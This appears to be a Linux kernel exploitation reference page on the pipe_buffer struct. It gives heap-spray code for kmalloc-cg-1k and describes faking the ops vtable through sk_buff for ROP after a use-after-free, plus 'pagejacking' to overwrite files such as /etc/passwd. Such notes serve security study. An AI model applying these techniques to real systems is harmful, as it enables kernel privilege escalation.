 # `pipe_buffer`

- _page_: `kmalloc-cg-1k`
- _leak heap_: nil
- _leak kbase_: `pipe_buf_operations`
- _arbitrary read/write_: nil
- _ROP_: `pipe_buf_operations->release`

A `pipe_buffer` is a struct that manages the buffer space used to sync 2 file
descriptors together, unidirectionally.

## Struct definition

`include/linux/pipe_fs_i.h`:

```c
/**
 * struct pipe_buffer - a linux kernel pipe buffer
 * @page: the page containing the data for the pipe buffer
 * @offset: offset of data inside the @page
 * @len: length of data inside the @page
 * @ops: operations associated with this buffer. See @pipe_buf_operations.
 * @flags: pipe buffer flags. See above.
 * @private: private data owned by the ops.
 **/
struct pipe_buffer {
  struct page *page;
  unsigned int offset, len;
  const struct pipe_buf_operations *ops;
  unsigned int flags;
  unsigned long private;
};

struct pipe_buf_operations {
  int (*confirm)(struct pipe_inode_info *, struct pipe_buffer *);
  /*
   * When the contents of this pipe buffer has been completely
   * consumed by a reader, ->release() is called.
   **/
  void (*release)(struct pipe_inode_info *, struct pipe_buffer *);
  bool (*try_steal)(struct pipe_inode_info *, struct pipe_buffer *);
  bool (*get)(struct pipe_inode_info *, struct pipe_buffer *);
};
```

## Allocation

```c
#include <unistd.h>

size_t buf[0x100];
size_t pipe_buf_spray = 0x5000;
int pipe_buf_fds[pipe_buf_spray][2];
for (int i = 0; i < pipe_buf_spray; i++) {
    pipe(pipe_buf_fds[i]);
    // need to write to actually get fields filled in
    write(pipe_buf_fds[i][1], &buf[0], 0x8);
}
```

## Freeing

```c
for (int i = 0; i < pipe_buf_spray; i++) {
    close(pipe_buf_fds[i][0]);
    close(pipe_buf_fds[i][1]);
}
```

## Exploit techniques

### ROP

Assuming we already have a UAF over `kmalloc-cg-1k` we can use a struct, for
example `sk_buff`, to put user-controlled data at the `ops` field of the
`pipe_buffer`, faking a vtable which can then be used for ROP.

#### Attacking `pipe_buffer` with `sk_buff`

`sk_buff` is a struct that manages an underlying buffer for a pair of sockets.
Similar to pipes, this socket pair connects 2 file descriptors together, and
needs an underlying buffer to synchronize. However, unlike `pipe_buffer`, the
socket pair is bidirectional, which means data can be read from and written to
either end of the socket pair.

It is allocated using the `socketpair` syscall, which has a wrapper in glibc:

```c
size_t target_size = 1024;
char payload[target_size - 320];
int sk_socket[2];
socketpair(AF_UNIX, SOCK_STREAM, 0, sk_socket);
write(sk_socket[0], payload, sizeof(payload));
```

The underlying `sk_buff` struct is as such:

```c
struct sk_buff {
    /* lots of irrelevant headers */

	/* These elements must be at the end, see alloc_skb() for details.  */
	sk_buff_data_t		tail;
	sk_buff_data_t		end;
	unsigned char		*head,
				*data;
	unsigned int		truesize;
	refcount_t		users;

#ifdef CONFIG_SKB_EXTENSIONS
	/* only useable after checking ->active_extensions != 0 */
	struct skb_ext		*extensions;
#endif
};
```

The actual struct that we're using for the exploit is `sk_buff.head`, which is
allocated along this path only at the point of writing to the socket:

```
unix_dgram_sendmsg -> sock_alloc_send_pskb -> alloc_skb_with_frags ->
alloc_skb -> __alloc_skb -> __kmalloc_reserve -> __kmalloc_node_track_caller ->
slab_alloc_node
```

with the second argument of `sock_alloc_send_pskb` eventually being the size of
the node allocated:

```c
	if (len > sk->sk_sndbuf - 32)
		goto out;

	if (len > SKB_MAX_ALLOC) {
		data_len = min_t(size_t,
				 len - SKB_MAX_ALLOC,
				 MAX_SKB_FRAGS * PAGE_SIZE);
		data_len = PAGE_ALIGN(data_len);

		BUILD_BUG_ON(SKB_MAX_ALLOC < PAGE_SIZE);
	}

	skb = sock_alloc_send_pskb(sk, len - data_len, data_len,
				   msg->msg_flags & MSG_DONTWAIT, &err,
				   PAGE_ALLOC_COSTLY_ORDER);
```

As the snippet above suggests, the allocated node is usually the length of the
data that we pass in, unless len is greater than `SKB_MAX_ALLOC`.

### Pagejacking

The `struct page` pointer points to a structure that manages physical-to-virtual
memory mappings, and each of these `struct page` is 0x40 bytes. More
importantly, if we can get 2 `pipe_bufs` to point to the same `struct page`,
then we will have a page-level UAF - and we'll have full control over the entire
page! We can then attack objects that require page allocations, such as slabs
passed to caches from the SLUB allocator, including specific caches like the
`filp` cache. We can then overwrite the permissions of important files such as
`/etc/passwd`.
